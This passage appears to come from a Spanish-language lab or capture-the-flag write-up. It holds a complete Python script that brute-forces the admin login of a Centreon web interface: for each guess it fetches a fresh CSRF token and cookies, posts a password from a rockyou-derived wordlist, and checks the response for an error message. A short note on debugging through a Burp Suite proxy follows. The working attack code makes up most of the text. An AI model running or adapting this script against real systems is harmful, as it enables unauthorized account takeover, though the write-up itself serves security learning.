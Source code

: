 ```python
              'centreon_token': token, 
              'submitLogin': 'Connect' 
            }

    _headers = {
                'Cookie': cookies, 
                'Content-Type': 'application/x-www-form-urlencoded', 
                'Accept-Encoding': 'gzip, deflate', 
                'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
               }

    resp = requests.post(url, data=_data, headers=_headers, proxies=proxies)

    return resp


def is_valid_login(response):
    soup = BeautifulSoup(response.text,'html.parser')
    error_div = soup.find('div', class_='error_msg')
    
    if error_div:
        print(error_div.text)
        return False
    else:
        return True


def attack(username, passwords_file):
    with open(passwords_file,'r') as f:
        for passwd in f.read().split('\n'): # Not readlines() because I don't want extra '\n'
             token, cookies = get_token_and_cookies() 
             resp = login(username, passwd, token, cookies, proxies)
             if is_valid_login(resp):
                 print("\n\nWE DID IT! USERNAME: '{0}'| PASSWORD: '{1}'\n".format(username,passwd))
                 break
             else:
                 print('WRONG!!! Username={0} | Password={1}\n'.format(username,passwd))


def let_the_game_begin():
    attack('admin',wordlist_file)

if __name__ == '__main__':
    let_the_game_begin()
```

Este script me dio par de problemas inicialmente, pero fue un error de lógica de mi parte. Notar que usé el proxy de BurpSuite para monitorear los datos que enviaba y recibía, me servía para debugging. El archivo `passwords.txt` contiene las primeras 50 palabras del diccionario `rockyou.txt`. 
